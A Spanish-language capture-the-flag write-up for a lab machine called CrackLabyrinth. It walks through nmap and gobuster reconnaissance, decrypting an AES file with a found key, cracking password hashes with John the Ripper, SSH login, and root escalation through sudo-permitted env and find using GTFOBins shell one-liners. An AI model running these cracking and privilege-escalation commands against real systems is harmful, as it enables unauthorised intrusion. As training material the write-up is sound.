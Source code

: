 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 5/10/2024'
---
```


# CrackLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de Apache.

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/imagen (61).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

<figure><img src="../.gitbook/assets/imagen (62).png" alt=""><figcaption></figcaption></figure>

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://172.17.0.2/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Utilizamos John the Ripper para intentar crackear las contraseñas.

```bash
john --wordlist=/usr/share/john/password.lst bob_passwords.hash
```

<figure><img src="../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Desciframos estos hashes y se nos proporciona 3 contraseñas y al probar vemos que **letmein** es la correcta. Toca iniciar sesión de los dos usuarios a través del servicio **SSH**.

<figure><img src="../.gitbook/assets/imagen (65).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (68).png" alt=""><figcaption></figcaption></figure>

#### 1. **Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo /usr/bin/env /bin/sh
```

* Este comando ejecuta el binario `/bin/sh` con privilegios de root mediante `sudo` y `env`, dándote una shell de root.
* Una vez ejecutado, tendrás acceso root en la máquina.

#### 2. **Escalada de privilegios con `find` (Alice)**

De forma similar, el comando `find` también puede ser explotado para obtener una shell con privilegios elevados si tiene permisos de sudo.

**Comando de GTFObins (find) para obtener una shell de root:**

```bash
sudo find . -exec /bin/sh \; -quit
```

* Este comando usa `find` para ejecutar `/bin/sh` con privilegios de root utilizando `sudo`.
* El flag `-exec` permite ejecutar el comando `/bin/sh`, y `-quit` detiene el comando `find` una vez que la shell ha sido lanzada.

<figure><img src="../.gitbook/assets/imagen (69).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (70).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.
